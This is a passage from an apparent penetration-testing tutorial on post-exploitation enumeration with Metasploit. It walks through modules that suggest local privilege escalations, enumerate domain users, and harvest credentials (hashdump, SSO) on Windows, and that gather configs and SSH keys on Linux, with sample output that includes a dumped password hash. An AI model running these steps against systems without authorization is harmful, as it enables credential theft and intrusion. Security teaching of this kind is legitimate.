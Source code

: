 ## 2. Comprehensive System Enumeration

The goal is to gather maximum information to identify misconfigurations and vulnerabilities.

### Using Metasploit Post-Exploitation Modules

#### For Windows Targets:
```bash
# 1. Automated local exploit suggestion
msf6 > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 2
msf6 post(multi/recon/local_exploit_suggester) > run
[*] 192.168.1.105 - Collecting local exploits for x64/windows...
[*] 192.168.1.105 - 38 exploit checks are being tried...
[+] 192.168.1.105 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.

# 2. Detailed system enumeration
msf6 > use post/windows/gather/enum_domain
msf6 post(windows/gather/enum_domain) > set SESSION 2
msf6 post(windows/gather/enum_domain) > run

msf6 > use post/windows/gather/enum_logged_on_users
msf6 post(windows/gather/enum_logged_on_users) > set SESSION 2
msf6 post(windows/gather/enum_logged_on_users) > run

# 3. Credential harvesting
msf6 > use post/windows/gather/credentials/sso
msf6 post(windows/gather/credentials/sso) > set SESSION 2
msf6 post(windows/gather/credentials/sso) > run

msf6 > use post/windows/gather/hashdump
msf6 post(windows/gather/hashdump) > set SESSION 2
msf6 post(windows/gather/hashdump) > run
[*] Running module against SRV-WEB01
[*] Hashes will be saved to: /root/.msf4/loot/20230920134245_default_192.168.1.105_windows.hashes_372861.txt
[*] Dumping password hashes...
[*] Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

#### For Linux Targets:
```bash
# 1. Linux-specific enumeration
msf6 > use post/linux/gather/enum_configs
msf6 post(linux/gather/enum_configs) > set SESSION 2
msf6 post(linux/gather/enum_configs) > run

msf6 > use post/linux/gather/enum_system
msf6 post(linux/gather/enum_system) > set SESSION 2
msf6 post(linux/gather/enum_system) > run

# 2. Check for SSH keys
msf6 > use post/linux/gather/enum_ssh
msf6 post(linux/gather/enum_ssh) > set SESSION 2
msf6 post(linux/gather/enum_ssh) > run

# 3. Check for interesting files
msf6 > use post/linux/gather/enum_files
msf6 post(linux/gather/enum_files) > set SESSION 2
msf6 post(linux/gather/enum_files) > run
```

